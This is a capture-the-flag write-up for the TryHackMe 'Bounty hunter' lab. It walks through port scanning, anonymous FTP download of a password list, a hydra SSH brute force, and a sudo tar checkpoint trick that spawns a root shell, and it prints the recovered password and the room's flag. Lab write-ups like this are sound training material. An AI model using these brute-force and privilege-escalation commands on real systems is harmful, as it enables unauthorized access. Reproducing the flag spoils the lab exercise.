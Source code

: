 ```yaml
---
title: TryHackMe - Bounty hunter
author: Bonface
date: 2024-01-24 00:00:00 +0000
categories:
  - TryHackMe
  - Easy
tags:
  - tryhackme
  - linux
  - nmap
  - privesc
  - ftp
  - hydra
  - ssh
  - gpg
  - john
  - SUID
---
```


### nmap

```sh
sudo nmap -sS -sC -v 10.10.71.74
	Discovered open port 80/tcp on 10.10.71.74
	Discovered open port 22/tcp on 10.10.71.74
	Discovered open port 21/tcp on 10.10.71.74
```

### Http_port 80

`http://10.10.71.74/`

```sh
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.10.71.74
```

### ftp

from the `nmap` scan
```

		| ftp-anon: Anonymous FTP login allowed (FTP code 230)
		| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
		|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
```

```sh
get locks.txt 
get task.txt
```

**The files**
- `locks.txt` is a word-list with passwords
- `task.txt` is a file created by `lin` *who i guess is a user*

### hydra
We use hydra to brute force the ssh
```sh
hydra -l lin -P locks.txt 10.10.71.74 ssh
```

Port 22 (ssh) 
host: 10.10.71.74
login: `lin`
password: `RedDr4gonSynd1cat3`

### ssh
```sh
ssh lin@10.10.7174
```
 	
```sh
sudo -l
/usr/lib
```

- Shell(syntax)
It can be used to break out from restricted environments by spawning an interactive system shell.

    tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
- Command 
```sh
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

```sh
find / -name "root.txt" 2>/dev/null
cat root.txt
	#THM{80UN7Y_h4cK3r}
```

